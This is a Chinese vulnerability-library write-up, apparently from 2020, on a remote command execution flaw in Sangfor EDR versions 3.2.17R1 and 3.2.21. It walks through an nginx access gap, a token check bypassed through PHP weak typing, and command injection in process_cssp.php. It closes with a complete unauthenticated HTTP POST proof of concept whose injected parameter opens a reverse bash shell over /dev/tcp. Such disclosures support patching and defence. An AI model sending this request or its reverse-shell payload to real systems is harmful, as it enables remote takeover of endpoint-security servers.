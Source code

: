 ```yaml
---
title: '深信服EDR 远程命令执行-2020-hvv2'
date: Sat, 12 Sep 2020 02:19:51 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响范围

受影响版本为3.2.17R1, 3.2.21两个版本，如果为这两个版本建议升级版本至 3.2.21.375

#### 漏洞原理

![](https://www.bylibrary.cn/wp-content/uploads/2020/09/1-1.png) dev\_linkage\_launch.php 为设备联动的新入口点主要是将联动的接口构造成业务统一处理的接口 主要调用 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/2-1.png) 跟进 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/3-1.png) 可以看到 第一个检查为 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_681da3546316fb534ecebc64614e1ff5.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_681da3546316fb534ecebc64614e1ff5.jpg) 绕过第一个检查: 在他们系统nginx配置文件里面: ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/4-1.png) 通过nginx规则可以得知,他们没有设置禁止外网访问.从而可以直接访问 /api/edr/sangforinter/v2/xxx 绕过 第一个检查 第二检查: 权限检查 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/5-1.png) 跟进check\_access\_token ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/6-1.png) 这里[![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_e311bb348c55f15a51fc6641b182d5b0.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_e311bb348c55f15a51fc6641b182d5b0.jpg) 引发第二个漏洞: php弱类型导致的漏洞 绕过只需要传入一个base64编码的json内容为{"md5":true}即可 至此 权限检查绕过完毕 来到 process\_cssp.php 文件 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/7-1.png) 存在任意指令执行漏洞.作者试图使用escapeshellarg函数去给单引号打反斜杠实际上是毫无作用的. 绕过: `{"params":"w=123\"'1234123'\"|命令"}` 结果如下: ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/8-1.png) 返回: ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/9.png) POC```
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9 HTTP/1.1
Host: xx.x.x.x
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.22.0
Content-Length: 77

{"params": "w=123\"'1234123'\"|bash -i >& /dev/tcp/ip/port 0>&1"} 
```